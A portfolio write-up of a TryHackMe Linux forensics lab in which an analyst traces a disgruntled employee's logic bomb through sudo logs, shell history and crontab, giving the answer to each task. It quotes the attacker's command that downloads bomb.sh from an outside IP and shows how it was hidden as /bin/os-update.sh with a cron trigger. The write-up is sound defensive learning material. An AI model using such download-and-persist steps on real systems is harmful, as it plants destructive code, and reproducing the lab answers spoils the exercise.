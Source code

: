 📝 Project Title:

TryHackMe – Disgruntled: Linux Forensics for Post‑Employment Logic Bomb Detection

🎯 Objective:

Investigate a Linux host for signs of malicious insider activity following a suspicious event. Focus on uncovering privilege escalation, unauthorized user creation, script creation and deployment (logic bomb), persistence mechanism via cron, and intended destructive action.

🛠️ Tools Used:

Linux command‑line (grep, cat, ls, cd)
/var/log/auth.log for sudo log auditing
User history analysis (.bash_history, .viminfo)
File metadata inspection (ls ‑la, file timestamps)
Text editors (vi, nano)
crontab analysis

❌ Skills Demonstrated:

Privileged access and process tracking via auth logs
Analysis of insider threat behavior (user creation, logic bomb)
File metadata and script content inspection
Persistence detection via scheduled tasks (cron)
Contextual timeline reconstruction

Project Overview

In this scenario, you assume the role of a Linux forensic analyst in a simulated environment where a disgruntled IT employee may have deployed a logic bomb. You begin by reviewing privileged activity logs in /var/log/auth.log, follow command execution chains through user histories and metadata, identify the logic bomb script and its scheduled activation, and deduce the intended harmful action.

🔍 Task Breakdown


✏️ Task 1: The user installed a package on the machine using elevated privileges. According to the logs, what is the full COMMAND?

⭕️ Objective: Find the exact command used to install a package with sudo.

⭕️ Method:
grep sudo /var/log/auth.log | grep install
Extract full command.

🔱 Answer: /usr/bin/apt install dokuwiki

✏️ Task 2: What was the present working directory (PWD) when the previous command was run?

⭕️ Objective: Determine what directory the install command was run from.

⭕️ Method: The same auth log entry includes a PWD field.

🔱 Answer: /home/cybert

📸 Screenshot Space: 

![image alt](https://github.com/andre5Jr/soc-analyst-digital-forensics-and-incident-response-Disgruntled/blob/f6495bd64fa2e0c59ec8a8ff4b973e2dccc7d7f8/1-1.png)   

✏️ Task 3: Which user was created after the package from the previous task was installed?

⭕️ Objective: Find the first user account added post-install.

⭕️ Method:
grep sudo /var/log/auth.log | grep adduser

🔱 Answer: it-admin

✏️ Task 4: A user was then later given sudo priveleges. When was the sudoers file updated? (Format: Month Day HH:MM:SS)

⭕️ Objective: Determine when sudo privileges were added to the new user.

⭕️ Method:
grep sudo /var/log/auth.log | grep visudo

🔱 Answer: Dec 28 06:27:34

✏️ Task 5: A script file was opened using the "vi" text editor. What is the name of this file?

⭕️ Objective: Name the script file opened with vi.

⭕️ Method:
grep sudo /var/log/auth.log | grep vi

🔱 Answer: bomb.sh 

📸 Screenshot Space: 

![image alt](https://github.com/andre5Jr/soc-analyst-digital-forensics-and-incident-response-Disgruntled/blob/f6495bd64fa2e0c59ec8a8ff4b973e2dccc7d7f8/4-1.png)   

![image alt](https://github.com/andre5Jr/soc-analyst-digital-forensics-and-incident-response-Disgruntled/blob/f6495bd64fa2e0c59ec8a8ff4b973e2dccc7d7f8/4-2%20Part%20One.png)   

![image alt](https://github.com/andre5Jr/soc-analyst-digital-forensics-and-incident-response-Disgruntled/blob/f6495bd64fa2e0c59ec8a8ff4b973e2dccc7d7f8/4-2%20Part%20Two.%20.png)   

![image alt](https://github.com/andre5Jr/soc-analyst-digital-forensics-and-incident-response-Disgruntled/blob/f6495bd64fa2e0c59ec8a8ff4b973e2dccc7d7f8/4-3%20.png)   

✏️ Task 6: What is the command used that created the file bomb.sh?

⭕️ Objective: Identify how the script was created (downloaded).

⭕️ Method:
cat /home/it‑admin/.bash_history | grep curl

🔱 Answer: curl 10.10.158.38:8080/bomb.sh --output bomb.sh

✏️ Task 7: The file was renamed and moved to a different directory. What is the full path of this file now?

⭕️ Objective: Determine where and under what name the script was saved.

⭕️ Method:
cat /home/it‑admin/.viminfo | grep saveas

🔱 Answer: /bin/os-update.sh

✏️ Task 8: When was the file from the previous question last modified? (Format: Month Day HH:MM)

⭕️ Objective: Find when the renamed script was last modified.

⭕️ Method:
ls -la /bin | grep os-update.sh

🔱 Answer: Dec 28 06:29

✏️ Task 9: What is the name of the file that will get created when the file from the first question executes?

⭕️ Objective: Name the file created by the logic bomb.

⭕️ Method:
cat /bin/os-update.sh

🔱 Answer: goodbye.txt

📸 Screenshot Space: 

![image alt](https://github.com/andre5Jr/soc-analyst-digital-forensics-and-incident-response-Disgruntled/blob/f6495bd64fa2e0c59ec8a8ff4b973e2dccc7d7f8/5-1.png)   

![image alt](https://github.com/andre5Jr/soc-analyst-digital-forensics-and-incident-response-Disgruntled/blob/f6495bd64fa2e0c59ec8a8ff4b973e2dccc7d7f8/5-1%20Part%20Two..png)   

![image alt](https://github.com/andre5Jr/soc-analyst-digital-forensics-and-incident-response-Disgruntled/blob/f6495bd64fa2e0c59ec8a8ff4b973e2dccc7d7f8/5-2.png)   

![image alt](https://github.com/andre5Jr/soc-analyst-digital-forensics-and-incident-response-Disgruntled/blob/f6495bd64fa2e0c59ec8a8ff4b973e2dccc7d7f8/5-3.png)   

![image alt](https://github.com/andre5Jr/soc-analyst-digital-forensics-and-incident-response-Disgruntled/blob/f6495bd64fa2e0c59ec8a8ff4b973e2dccc7d7f8/5-4.png)   

✏️ Task 10: At what time will the malicious file trigger? (Format: HH:MM AM/PM)

⭕️ Objective: Discover when the malicious script is set to execute.

⭕️ Method:
cat /etc/crontab
Use crontab format to decode timing.

🔱 Answer: 08:00 AM

📸 Screenshot Space: 

![image alt](https://github.com/andre5Jr/soc-analyst-digital-forensics-and-incident-response-Disgruntled/blob/f6495bd64fa2e0c59ec8a8ff4b973e2dccc7d7f8/6-1.png)   

![image alt](https://github.com/andre5Jr/soc-analyst-digital-forensics-and-incident-response-Disgruntled/blob/f6495bd64fa2e0c59ec8a8ff4b973e2dccc7d7f8/6-1%20Part%20Two..png)   

![image alt](https://github.com/andre5Jr/soc-analyst-digital-forensics-and-incident-response-Disgruntled/blob/f6495bd64fa2e0c59ec8a8ff4b973e2dccc7d7f8/6-1%20Part%20Three.png)   

![image alt](https://github.com/andre5Jr/soc-analyst-digital-forensics-and-incident-response-Disgruntled/blob/f6495bd64fa2e0c59ec8a8ff4b973e2dccc7d7f8/6-1%20Part%20Four.png) 

🔍 Analysis and Reflection

💡 Challenges Faced:

Tying sudo log entries to specific user activity
Reconstructing hidden file operations via .viminfo
Decoding cron timing into human-readable form

💡 Lessons Learned:

Linux auth logs are invaluable for untangling insider threats
Shell histories and editor metadata can reveal hidden workflows
Cron job analysis is essential for discovering persistence mechanisms

💡 Relevance to SOC / Incident Response:

Demonstrates tracking of privilege misuse and logic bomb deployment
Shows how forensic artifacts (logs, histories, metadata) tie into a timeline
Useful for developing alerting mechanisms (e.g., new user + cron file change)

💡 Relevance to Penetration Testing / Red Teaming:

Illustrates post‑access misuse and misuse of built‑in tools
Highlights tool misuse and stealth via cron scheduling

✅ Conclusion

Using Linux logs and forensic artifacts, the investigation revealed an illicit script install and scheduling, culminating in the discovery of a logic bomb set to execute at 8 AM. Indicators? New it-admin account, /bin/os-update.sh, and scheduled /etc/crontab entry. Profiling these behaviors helps develop defenses and alerts.

💡 Skills Gained:

Auth.log and sudo history analysis
Reconstruction of post-exploit workflow
Cron-based persistence discovery
Timeline correlation across logs, histories, and filesystem

💡 Next Steps:

Build alerts for unusual sudo installs and user creation
Monitor /etc/crontab and script activity for anomalies
Simulate logic bombs for defense playbooks


